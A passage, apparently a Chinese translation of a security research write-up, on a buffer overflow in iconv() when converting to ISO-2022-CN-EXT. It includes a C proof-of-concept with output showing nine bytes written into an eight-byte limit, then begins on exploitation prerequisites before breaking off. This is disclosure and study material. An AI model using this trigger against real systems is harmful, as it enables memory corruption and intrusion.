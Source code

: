 <table><tbody><tr><td width="414" valign="top" style="padding: 3pt 6pt 1.5pt;border-width: 1pt;border-color: rgb(222, 224, 227);background: rgb(245, 246, 247);"><p style="margin-top:6.0000pt;margin-bottom:6.0000pt;text-align:left;line-height:120%;"><span style="font-family:Consolas;line-height:120%;color:rgb(100,106,115);font-size:11.0000pt;">Plaintext</span><span style="font-family:Consolas;line-height:120%;color:rgb(100,106,115);font-size:11.0000pt;"><br/></span><em><span style="font-family:Consolas;line-height:120%;mso-ansi-font-style:italic;font-size:11.0000pt;">/*$ gcc -o poc ./poc.c &amp;&amp; ./poc*/</span></em><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">...void hexdump(void *ptr, int buflen){    ...}void main(){    iconv_t cd = iconv_open(&#34;ISO-2022-CN-EXT&#34;, &#34;UTF-8&#34;);    char input[0x10] = &#34;AAAAA劄&#34;;    char output[0x10] = {0};    char *pinput = input;    char *poutput = output;    </span><em><span style="font-family:Consolas;line-height:120%;mso-ansi-font-style:italic;font-size:11.0000pt;">// Same size for input and output buffer: 8 bytes</span></em><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">    size_t sinput = strlen(input);    size_t soutput = sinput;    iconv(cd, &amp;pinput, &amp;sinput, &amp;poutput, &amp;soutput);    printf(&#34;Remaining bytes (should be &gt; 0): %zd</span><strong><span style="font-family:Consolas;line-height:120%;mso-ansi-font-weight:bold;font-size:11.0000pt;">\n</span></strong><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">&#34;, soutput);    hexdump(output, 0x10);}</span><span style="font-family:Calibri;mso-fareast-font-family:宋体;mso-bidi-font-family:&#39;Times New Roman&#39;;font-size:10.5000pt;"><o:p></o:p></span></p></td></tr></tbody></table>  
在易受攻击的系统上，这会产生：  
<table><tbody><tr><td width="414" valign="top" style="padding: 3pt 6pt 1.5pt;border-width: 1pt;border-color: rgb(222, 224, 227);background: rgb(245, 246, 247);"><p style="margin-top:6.0000pt;margin-bottom:6.0000pt;text-align:left;line-height:120%;"><span style="font-family:Consolas;line-height:120%;color:rgb(100,106,115);font-size:11.0000pt;">Plaintext</span><span style="font-family:Consolas;line-height:120%;color:rgb(100,106,115);font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">$ gcc -o poc ./poc.c &amp;&amp; ./poc</span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">Remaining bytes (should be  0): -1</span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">000000: 41 41 41 41  41 1b 24 2a  48 00 00 00  00 00 00 00    AAAA A.$* H... ....</span><span style="font-family:Calibri;mso-fareast-font-family:宋体;mso-bidi-font-family:&#39;Times New Roman&#39;;font-size:10.5000pt;"><o:p></o:p></span></p></td></tr></tbody></table>  
iconv()  
尽管指示最多写入八个字节，但实际上已写入九个字节。  
  
检查  
提交历史  
，我发现这个错误已经存在很久了：它出现于 2000   
年，距今已有   
24   
年了。  
  
那么，该如何解决这个错误呢？  
  
**条件和原始**  
  
利用这个漏洞，我得到了 1   
到   
3   
个字节的溢出，其中包含非受控字符。这不算什么。除此之外，还有一些先决条件。我需要找到一个调用，  
iconv()  
在其中我：  
  